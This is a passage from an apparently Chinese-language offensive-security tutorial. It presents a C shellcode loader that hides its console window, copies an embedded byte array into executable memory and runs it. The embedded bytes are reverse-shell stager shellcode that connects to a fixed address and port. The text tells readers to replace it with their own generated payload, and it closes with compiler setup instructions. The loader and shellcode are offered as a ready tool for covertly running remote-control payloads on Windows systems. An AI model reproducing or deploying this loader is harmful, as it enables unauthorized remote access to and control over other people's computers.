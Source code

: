 ###### (2) 加载器:

这个加载器是网上找到的,还有很多类似的,会c语言的大家还可以自己写一个!

```
#include "windows.h"  
#include "stdio.h"  
  
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")  // 隐藏控制台窗口显示
#pragma comment(linker,"/INCREMENTAL:NO")                                     // 减小编译体积
#pragma comment(linker, "/section:.data,RWE")   
//shellcode在生成payload时选择c即可  
  
unsigned char shellcode[]=  
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54"
"\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x84"
"\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
"\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
"\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00"
"\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56"
"\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
"\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5"
"\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85"
"\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1"
"\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
//将这段替换成自己生成的即可使用
   
int main()  
{  
    LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);  
    memcpy(Memory, shellcode, sizeof(shellcode));  
    ((void(*)())Memory)();  
}  
```

##### (3) C语言编译环境配置:

a. 在windows上借助MinGW工具安装c/c++编译器

下载地址：[https://sourceforge.net/projects/mingw/](https://sourceforge.net/projects/mingw/])
